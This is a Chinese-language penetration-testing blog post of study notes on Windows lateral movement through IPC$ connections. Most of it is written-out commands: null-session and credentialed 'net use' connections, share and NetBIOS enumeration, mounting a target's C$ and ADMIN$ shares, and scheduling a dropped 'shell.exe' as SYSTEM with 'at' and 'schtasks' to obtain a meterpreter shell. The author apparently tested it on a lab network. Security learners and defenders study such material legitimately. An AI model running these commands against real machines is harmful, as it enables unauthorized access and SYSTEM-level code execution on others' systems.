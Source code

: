 ```yaml
---
layout: post
title: "window IPC$(空連接)"
description: ""
date: 2023-07-11
categories:
  - Windows後滲透
  - CMD常用指令
author: ""
tags: ['Windows後滲透', 'CMD']
---
```




# window IPC$(空連接)
###### tags: `Windows 域滲透`

## 注意: UAC 可能影響非常多指令， net use 兩台互連很容易出現系統發生 5錯誤 存取被拒!!!

### 如果不想被UAC干擾 
1.你只能使用 amdinistrator 帳號，其他帳號都是無法的(即使amdinistrators組也不行)
2.關閉UAC


原本在書上看過這種攻擊，沒想到已經是年代久遠的方式了，聽說發生在 win NT/2000/XP/win 7 環境下，但我實測win7也不行，應該是打了補丁。


所以就當作學習資料文件公享類的域滲透吧。





### 空連接(可以但沒用了權限超低)
```
net use \\192.168.43.217\IPC$ "" /user:""
```





### 預設 admintitrators 密碼為空 (但空密碼不准連接)
```
net use \\192.168.43.217\IPC$ "" /user:"administrators"
```



### 假設我們已知管理員帳號
```
net use \\192.168.43.217\IPC$ "xxxx" /user:"liar"
```

### 看已互連過的電腦
```
net view
```

### 查看對方的共享資源
```
net view \\192.168.43.217
```


### 得到远程主机的 NetBIOS 用户名列表
```
nbtstat -A 192.168.43.217
```



### 看到對方開啟了共享資源
```
Users
shares5
```

### 掛載目標預設開啟的資料夾到攻擊者的盤
```
net use z: \\192.168.43.217\IPC$
net use x: \\192.168.43.217\C$
net use w: \\192.168.43.217\ADMIN$
net use v: \\192.168.43.217\print$
(預設)

### at排程
```
查看對方時間
Net time \\192.168.43.217

at \\192.168.43.217 10:42 C:\Windows\shell.exe 
這招沒用(原因不確定而且這招在高版本被棄掉了，但我在有些環境又可以) 
```


### schtasks 排程(這招測試需要關閉防火牆)
```
設定排程
schtasks /create /s 192.168.43.217 /u liar /p xxxx /ru "SYSTEM" /tn hack /sc DAILY  /tr C:\Windows\shell.exe /F


強制執行排程
schtasks /run /s 192.168.43.217 /u liar /p xxxx /tn hack /i

```

### 返回的meterpreter 叫出 window shell 是
```
nt authority\system
```

### 刪除連接
```
net use * /del
```


<br/>
<br/>

## 參考資料:
https://blog.csdn.net/qq_45521281/article/details/105820827#:~:text=%E7%A9%BA%E8%BF%9E%E6%8E%A5%E5%B0%B1%E6%98%AF%E4%B8%8D%E7%94%A8%E5%AF%86%E7%A0%81,%E7%9A%84%E6%9C%8D%E5%8A%A1%E5%B0%B1%E5%8F%AF%E4%BB%A5%E4%BA%86%E3%80%82


https://www.se7ensec.cn/2020/07/12/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-%E5%9F%BA%E4%BA%8EIPC%E7%9A%84%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8/



https://micro8.gitbook.io/micro8/contents-1/31-40/38certutil-yi-ju-hua-xia-zai-payload


https://www.wangan.com/p/7fygfgedde5e5d30


http://t3ngyu.leanote.com/post/LM-AT-SCHTASKS


https://xz.aliyun.com/t/2319


http://t3ngyu.leanote.com/post/LM-AT-SCHTASKS


https://m.freebuf.com/articles/system/331639.html#:~:text=Impacket%E6%98%AF%E7%94%A8%E4%BA%8E%E5%A4%84%E7%90%86,%E5%B1%82%E6%AC%A1%E7%BB%93%E6%9E%84%E5%8F%98%E5%BE%97%E7%AE%80%E5%8D%95%E3%80%82


https://micro8.gitbook.io/micro8/contents-1/31-40/38certutil-yi-ju-hua-xia-zai-payload